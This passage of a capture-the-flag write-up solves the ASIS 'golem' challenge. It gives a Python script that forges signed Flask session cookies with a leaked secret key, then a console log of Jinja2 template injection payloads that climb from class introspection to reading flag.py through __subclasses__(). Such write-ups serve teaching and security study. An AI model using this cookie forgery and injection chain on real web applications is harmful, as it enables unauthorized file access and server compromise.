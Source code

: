 ```python
    try:
        app = FlaskMockApp(secret_key)
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)

cookie_string_template = "_ga=GA1.2.23644687.1504890772; _gid=GA1.2.842114127.1504890772; session={0}"

while True:
	payload = raw_input("Enter payload> ")
	signed_cookie = session_cookie_encoder(obtained_secret, {"golem": payload})
	cookie_header = cookie_string_template.format(signed_cookie)
	custom_headers = {
		"Cookie": cookie_header,
		"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0"
	}
	response = requests.post("https://golem.asisctf.com/golem", data={"golem":"Hello"}, headers=custom_headers)
	required_output = response.text.split("Hello :")[1].split(", why you don't")[0]
	print HTMLParser.HTMLParser().unescape(required_output)
```

Here is the console output, in the above script I'm filtering server response to print only what we need.

```
Enter payload> {{2+3}}
5

Yay! it's evaluating :)


Enter payload> {{"hello".__class__}}
 <type 'str'> 

Here we go! a much better payload. This time we are trying to access class type of a string.


Enter payload> {{"hello".__class__.mro()}}
 [<type 'str'>, <type 'basestring'>, <type 'object'>]

This time we are asking **Method Resolution Order(MRO)** of a string, so when you call a method on string it searches in 'str' object then 'basestring' and so on.


Enter payload> {{"".__class__.mro()[2].__subclasses__()}}
 [<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, ...., <type 'file'>....]  //Most of the output is redacted as it's quite huge.

So, we selected object type as it's the base of all, and now asking what are all the subclasses are used by this web application. As you all can see there is a file object, guess what! now we can read and write files to file system. Yay! we can read flag.py, can't wait to do that.


Enter payload> {{"".__class__.mro()[2].__subclasses__()[40]("flag.py","r").read()}}

 flag = 'ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}'

Our flag is: **ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}**
```